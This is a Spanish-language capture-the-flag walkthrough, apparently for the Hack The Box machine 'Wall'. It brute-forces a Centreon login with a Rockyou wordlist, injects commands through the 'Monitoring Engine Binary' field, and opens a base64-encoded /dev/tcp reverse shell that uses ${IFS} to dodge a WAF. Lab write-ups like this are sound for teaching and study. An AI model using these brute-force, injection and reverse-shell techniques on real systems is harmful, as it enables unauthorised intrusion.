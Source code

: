 ```python3

if __name__ == '__main__':

# Declaramos una variable "f" que nos abra un diccionario (mil primeras lineas Rockyou.txt) con permisos de lectura
        f = open("dicc.txt", "r")
# Barras de estado
        p1 = log.progress("Fuerza Bruta contra Centreon")
        p1.status("Iniciando proceso de Fuerza Bruta contra el Panel Loguin")
        time.sleep(2)
# Para cada Password que se lea se va a tramitar una peticion web probando la Password
        for password in f.readlines():
                p1.status("Probando la Password: %s" % password.strip("\n"))
# Funcion Principal
                makeRequest(password.strip("\n"))
```
Chequear el script paso por paso y recordar lo del `Centreon_token`

Ejecutamos el script molon y nos devuelve que para el usuario `admin` la `password` es `pxxxxxxxx`

Nos logueamos en el panel de `Centreon` con la credencial obtenida.

Antes ojeando el `Script en Python del RCE` vemos algunas rutas potenciales a investigar dentro del panel del CMS

Encontramos el RCE en la url `http://10.10.10.157/centreon/main.get.php?p=60901` que vemos que tiene un `poller` llamado `centreon`
Nos metemos para configurarlo y nos encontramos con las mismas rutas que habia en el exploit de python y localizamos el campo del RCE para injectar comandos y como ejecutarlo.

Basicamente cambiamos el campo de `Monitoring Engine Binary` en la que aparecia una ruta (que borramos) y sustituimos por nuestro comando a ejecutar `whoami;`
Guardamos la configuracion `save`
Procedemos a selecionar la plantilla y darle a la opcion `Export Configuration` que nos redirige a `http://10.10.10.157/centreon/main.php?p=60902&poller=1`
Estando en la pagina de  `| Configuration Files Export` procedemos a darle a `Export`.

Y vemos que hemos encontrado el RCE, ahora vamos a intentar entablarnos una reverse_shell como siempre para acceder a la maquina.
Probamos distintos comandos y obtenemos que muchas veces [sobretodo cuando hay espacios en el comando] no podemos guardar la configuracion como si por detras hubiese un `Waff` o `Firewall`.

Conseguimos obtener una reverse_shell atraves de introducir el siguiente comando: 
```bash
# Pasamos a base64 nuestro comando a ejecutar
echo 'bashc -i >& /dev/tcp/10.10.15.141/1234 0>&1' | base64 
YmFzaGMgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTUuMTQxLzEyMzQgMD4mMQo=
# Procedemos a poner el comando a ejecutar final
echo YmFzaGMgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTUuMTQxLzEyMzQgMD4mMQo= | base64 -d | bash
# Y no nos funciona!!!!!!!!!!!!!!!!!!!!!!!!!!!!
```
# Espacios NO porfavor ${IFS}
Como hemos dicho antes, parece ser que hay un `WAFF` por detras validando que no hallan espacios, asique en bash una tecnica muy buena es la de sustituir los espacios por el
comando `${IFS}`
Tal que asi quedaria el comando que nos devuelve la shell perfectamente:
```bash
echo${IFS}YmFzaGMgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTUuMTQxLzEyMzQgMD4mMQo=|base64${IFS}-d|bash;
```
# Automatizacion de la intrusion para ganar acceso directo con nuestro exploit `AutoPwn_Wall.py`
Vamos a crearnos nuestro script para automatizar la intrusion tal como la hemos explicado, pasando el script en `python3` de `Fuerza Bruta` a un `Exploit` de acceso a la maquina
como el usuario `www-data`